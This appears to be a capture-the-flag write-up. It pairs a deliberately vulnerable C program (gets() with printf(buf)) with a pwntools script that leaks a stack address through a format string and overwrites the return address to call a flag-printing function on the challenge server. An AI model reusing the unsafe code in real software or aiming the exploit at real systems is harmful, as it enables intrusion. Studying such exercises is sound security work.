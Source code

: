 ```c
#include <stdio.h>
#include <stdlib.h>
void flag(){
    system("cat flag");
    return;
}
int main(int argc, char *argv[])
{
    char buf[400];
    gets(buf);
    printf(buf);
    puts("");
    fflush(stdout);
    gets(buf);
    printf(buf);
    puts("");
    return 0;
}
```

--

# Answer

```python
from pwn import *

elf=ELF('./r2f.out')
# io=process('./r2f.out')
io=remote('vpn.duckll.tw',8703)
io.sendline('%23$u')
output=io.recvline()[:-1]
print output
leak=int(output)
print "leak",hex(leak)
offset=0x8dc-0x808
retaddr=leak+offset
print "retaddr",hex(retaddr)
payload=fmtstr_payload(11,{retaddr:elf.symbols['flag']},0,'byte')
print "payload",repr(payload)
io.sendline(payload)
io.interactive()
```

---

#Q & A

--

#END

